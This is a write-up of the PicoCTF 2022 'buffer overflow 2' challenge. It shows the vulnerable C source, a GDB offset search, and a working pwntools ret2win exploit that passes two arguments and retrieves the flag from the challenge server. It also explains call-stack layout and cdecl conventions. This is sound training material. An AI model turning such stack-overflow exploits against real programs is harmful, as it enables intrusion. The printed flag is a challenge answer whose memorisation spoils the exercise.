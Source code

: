 ```yaml
---
layout: single
title:  "PicoCTF 2022 - buffer overflow 2"
categories: 
  - PicoCTF
  - Binary Exploitation
tags:
  - ctf
  - picoctf
toc: true
toc_label: "Contents"
toc_icon: "list"  # corresponding Font Awesome icon name (without fa prefix)
excerpt: "A ret2win challenge that involves parameters on the call stack."
---
```


A ret2win challenge that involves parameters on the call stack.

## Preamble - The Call Stack
Referring to the following diagram of a call stack,
![Call Stack](https://avinetworks.com/wp-content/uploads/2020/06/buffer-overflow-diagram.png)
We note the relative locations of the base pointer, return function and parameters on our call stack. This will come in handy later.


## My Solution
As usual, we will look at the `vuln` binary. Using `checksec`, we observe the following:
```bash
$ checksec vuln                                                                     
[*] '.../vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
From this, we can crucially see that the file is a 32-bit little-endian ELF file with no stack canary. NX is enabled, but I don't think this will affect our approach for this challenge.

Now, looking at `vuln.c`, we can note down some interesting features.
```c
...
#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
As mentioned earlier, parameters are involved in this challenge. We can see that the `win()` function takes in two parameters, `arg1` and `arg2`. Within the function, we can see that the win condition is fulfilled if and only if `arg1` and `arg2` are equivalent to `0xCAFEF00D` and `0xF00DF00D`.

Aside from this, nothing else seems out of the ordinary. We'll just need to insert our parameters into the call stack when we run our exploit.

Now, let's use `readelf` to find the function addresses.
```bash
$ readelf -s vuln
>> Symbol table '.symtab' contains 77 entries:
...
64: 08049296   162 FUNC    GLOBAL DEFAULT   15 win
...
73: 08049372   122 FUNC    GLOBAL DEFAULT   15 main
...
```
For this challenge, we'll note down that the addresses of `win()` and `main()` are `0x08049296` and `0x08049372` respectively.

Let's find the offset to EIP using GDB.
```bash
$ gdb vuln
>> ...
gef➤ pattern create 150
[+] Generating a pattern of 150 bytes (n=8)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma
[+] Saved as '$_gef0'
gef➤  r
Starting program: .../vuln
Please enter your string:
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma

Program received signal SIGSEGV, Segmentation fault.
0x62616164 in ?? ()
...
gef➤  pattern offset $eip
[+] Searching for '64616162'/'62616164' with period=4
[+] Found at offset 112 (little-endian search) likely
```
Therefore, the offset to EIP is 112.

We can now craft our exploit. Using Python 3 and pwntools:
```python
# solve.py

from pwn import *
# elf = ELF('./vuln') # for local execution
# p = process(elf.path) # for local execution
p = remote('saturn.picoctf.net', 51325) # for remote execution

# payload buffer
payload = b'A' * 112 # offset
payload += p32(0x08049296) # win()
payload += p32(0x08049372) # main() - return function address
payload += p32(0xCAFEF00D) # param 1
payload += p32(0xF00DF00D) # param 2

p.recvline().decode("utf-8")
p.sendline(payload)
print(p.recvall())
```
```bash
[+] Opening connection to saturn.picoctf.net on port 51325: Done
picoCTF{argum3nt5_4_d4yZ_59cd5643}Please enter your string:

[*] Closed connection to saturn.picoctf.net port 51325
```


## Learning Takeaways
### How is this any different from a typical 32-bit ret2win challenge?
Recall that parameters are involved. This means that we need to craft our payload in such a manner that it can emulate a "normal" call stack.

For a standard 32-bit ret2win challenge, all we need to do is insert the address of our flag/win function into the buffer (which exists on the call stack). This was seen from our solution to the [buffer overflow 1](https://yhwong20.github.io/picoctf/binary%20exploitation/buffer-overflow-1/) challenge. This would alter the execution flow of our program, as we are now artificially inducing the execution of our flag function, by inserting it into the call stack.

What's different here, is that `win()` takes in 2 parameters. Hence, we need to add in these parameters into the call stack to trigger the win condition. If we do not insert the correct parameters, or if parameters are missing, it will cause the program to not execute correctly.

### Why does the payload look like that?
Recall the diagram of the call stack which was shown earlier, and the relative order of each region on the stack.

Firstly, for us to reach and overwrite the region of the call stack which stores parameters, we will need to go through the 4 byte space which stores the address of our return function. This means that the address of the return function must be added to the payload (after `win()`).

Normally, the return function would be `main()`, and this is also why I've chosen to preserve it in the payload (to ensure the program can run properly). However, I think it is also possible to insert any arbitrary address into the return address space (I've tried inserting `0x0` which worked just as fine). Ultimately, we just want to preserve the relative order of the stack in the payload, and this means that the return function address must be present.

Next, we'll insert our parameters. As per the **cdecl** calling conventions, which are used for x86 32-bit binaries, parameters are stored on the call stack in reverse order (generally speaking, the last argument is pushed onto the stack first, and the first argument is pushed last). This means that `arg2` is passed onto the call stack before `arg1`, and consequently, `arg2` is higher in memory than `arg1`. Since we want to emulate the call stack using our payload, we have to preserve the relative ordering of parameters as well.

Thus, we craft the payload in such a manner to ensure that `arg2` is higher in memory than `arg1`, and `win()` is as low in memory as possible (after the buffer). The earlier we insert something into the payload, the lower it should exist in memory, and this helps us maintain the relative structure and order of the call stack.


## References
- [John Hammond (YouTube): Pwntools & GDB for Buffer Overflow w/ Arguments (PicoCTF 2022 #43 'buffer-overflow2')](https://www.youtube.com/watch?v=26mEa1Ojux8&list=PL1H1sBF1VAKUbRWMCzEBi61Z_7um7V5Sd&index=44)
- [CTF 101 - Calling Conventions](https://ctf101.org/binary-exploitation/what-are-calling-conventions/)
